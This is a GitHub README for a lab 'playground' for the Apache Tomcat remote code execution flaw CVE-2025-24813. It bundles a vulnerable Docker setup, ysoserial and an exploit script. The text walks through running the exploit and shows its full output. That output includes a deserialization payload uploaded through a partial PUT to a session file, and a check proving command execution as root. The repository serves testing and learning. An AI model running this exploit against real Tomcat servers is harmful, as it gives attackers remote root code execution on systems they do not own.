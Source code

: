 Tomcat CVE-2025-24813 playground
================================
Exploit was forked from https://github.com/absholi7ly/POC-CVE-2025-24813/blob/main/README.md (did not work for me)

Content
=======
1. *ROOT.war* is a minimal app with one servlet including apache-common-3.1 and spawing a session
2. *ysoserial.jar* taken original from ysoserial repo (https://github.com/frohoff/ysoserial)
3. *Dockerfile* to build a vulnerable installation
4. *CVE_2025_24813.py* actual exlploit

Setup
=====
Build and run the vulnerable tomcat installation
```
$ docker build -t tomcat-cve-2025-24813 .
$ docker run --name tomcat-cve-2025-24813 -it -d -p 8080:8080 tomcat-cve-2025-24813
```

Exploit
=======
```
$ python CVE_2025_24813.py --command 'bash -c echo${IFS}$(id)>/tmp/PWN'  http://localhost:8080

 ██████╗██╗   ██╗███████╗    ██████╗  ██████╗ ██████╗ ███████╗      ██████╗ ██╗  ██╗ █████╗  ██╗██████╗
██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗╚════██╗██╔════╝      ╚════██╗██║  ██║██╔══██╗███║╚════██╗
██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║ █████╔╝███████╗█████╗ █████╔╝███████║╚█████╔╝╚██║ █████╔╝
██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║██╔═══╝ ╚════██║╚════╝██╔═══╝ ╚════██║██╔══██╗ ██║ ╚═══██╗
╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝███████╗███████║      ███████╗     ██║╚█████╔╝ ██║██████╔╝
 ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝ ╚══════╝╚══════╝      ╚══════╝     ╚═╝ ╚════╝  ╚═╝╚═════╝
                          ---=== TOMCAT RCE PKLAYGROUND by u238 ===---

[*] Session ID: u238
[+] Server is writable via PUT: http://localhost:8080/check.txt
[*] Generating ysoserial payload for command: bash -c echo${IFS}$(id)>/tmp/PWN
[+] Payload generated successfully: payload.ser
[+] Payload uploaded with status 409 (Conflict): http://localhost:8080/u238.session
[+] Exploit succeeded! Server returned 500 after deserialization.
[+] Target http://localhost:8080 is vulnerable to CVE-2025-24813!
[+] Temporary file removed: payload.ser
```

Check (after exploit)
=====
```
$ podman exec tomcat-cve-2025-24813 cat /tmp/PWN
uid=0(root) gid=0(root) groups=0(root)
```
